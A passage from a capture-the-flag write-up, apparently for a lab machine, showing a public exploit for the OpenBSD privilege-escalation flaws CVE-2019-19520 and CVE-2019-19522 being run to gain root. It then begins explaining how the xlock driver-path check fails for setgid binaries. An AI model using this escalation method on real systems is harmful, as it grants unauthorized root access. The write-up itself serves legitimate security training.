 

Now just run it:



    openkeys$ ./.df
    ./.df[1]: penbsd-authroot: not found
    openbsd-authroot (CVE-2019-19520 / CVE-2019-19522)
    [*] checking system ...
    [*] system supports S/Key authentication
    [*] id: uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
    [*] compiling ...
    [*] running Xvfb ...
    [*] testing for CVE-2019-19520 ...
    [+] success! we have auth group permissions

    WARNING: THIS EXPLOIT WILL DELETE KEYS. YOU HAVE 5 SECONDS TO CANCEL (CTRL+C).

    [*] trying CVE-2019-19522 (S/Key) ...
    Your password is: EGG LARD GROW HOG DRAG LAIN
    otp-md5 99 obsd91335
    S/Key Password:
    openkeys#



And grab `root.txt`:



    openkeys# cat root.txt
    f3a553b1************************



### Manual CVE-2019-19520

#### Overview

`xlock` is program that locks the screen and waits for the user to
re-enter their password. There is a check (in
`xenocara/lib/mesa/src/loader/loader.c`) to make sure that SUID binaries
can't use the `LIBGL_DRIVERS_PATH` environment variable. This makes
sense, because otherwise anyone could set the path to a directory they
control, create a malicious library/driver that is loaded by a SUID
binary, and then they get a shell as the owner of that binary.

The vulnerability is that the check in OpenBSD checks for SUID, but
forgets about SetGUID binaries:



    113    if (geteuid() == getuid()) {
    114       /* don't allow setuid apps to use LIBGL_DRIVERS_PATH */
    115       libPaths = getenv("LIBGL_DRIVERS_PATH");



`xlock` runs as the `auth` group:

